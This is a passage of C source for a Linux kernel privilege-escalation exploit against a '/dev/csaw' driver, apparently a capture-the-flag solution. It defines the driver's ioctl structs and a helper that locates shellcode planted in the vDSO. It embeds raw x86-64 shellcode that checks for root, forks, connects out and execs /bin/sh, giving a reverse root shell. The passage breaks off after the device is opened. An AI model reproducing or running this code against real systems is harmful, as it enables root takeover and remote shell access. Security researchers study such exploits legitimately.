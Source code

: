 ```
struct alloc_channel_args{
    size_t buf_size;
    int id;
};

struct shrink_channel_args{
    int id;
    size_t size;
};

struct read_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct write_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct seek_channel_args{
    int id;
    loff_t index;
    int whence;
};

size_t check_have_writed(char * shellcode)
{
    size_t vdso_usr, ret;
    vdso_usr = getauxval(AT_SYSINFO_EHDR);
    printf("[+] vdso_usr:0x%lx\n", vdso_usr);
    ret = memmem(vdso_usr, 0x1000, shellcode, strlen(shellcode));
    if(ret){
        return ret;
    }
    return 0;
}

int main(int argc, char *argv[], char *envp[])
{
    struct alloc_channel_args alloc_channel;
    struct shrink_channel_args shrink_channel;
    struct read_channel_args read_channel;
    struct write_channel_args write_channel;
    struct seek_channel_args seek_channel;

    char *buf = malloc(0x1000);
    char pid[1];
    size_t addr;
    size_t search;
    size_t cred, real_cred, task_struct;
    size_t vdso_kernel, vdso_usr;
    char shellcode[] = "\x90\x53\x48\x31\xc0\xb0\x66\x0f\x05\x48\x31\xdb\x48\x39\xc3\x75\x0f\x48\x31\xc0\xb0\x39\x0f\x05\x48\x31\xdb\x48\x39\xd8\x74\x09\x5b\x48\x31\xc0\xb0\x60\x0f\x05\xc3\x48\x31\xd2\x6a\x01\x5e\x6a\x02\x5f\x6a\x29\x58\x0f\x05\x48\x97\x50\x48\xb9\xfd\xff\xf2\xfa\x80\xff\xff\xfe\x48\xf7\xd1\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x48\x31\xdb\x48\x39\xd8\x74\x07\x48\x31\xc0\xb0\xe7\x0f\x05\x90\x6a\x03\x5e\x6a\x21\x58\x48\xff\xce\x0f\x05\x75\xf6\x48\xbb\xd0\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd3\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x31\xd2\xb0\x3b\x0f\x05\x48\x31\xc0\xb0\xe7\x0f\x05";

    int fd = open("/dev/csaw", O_RDWR);
```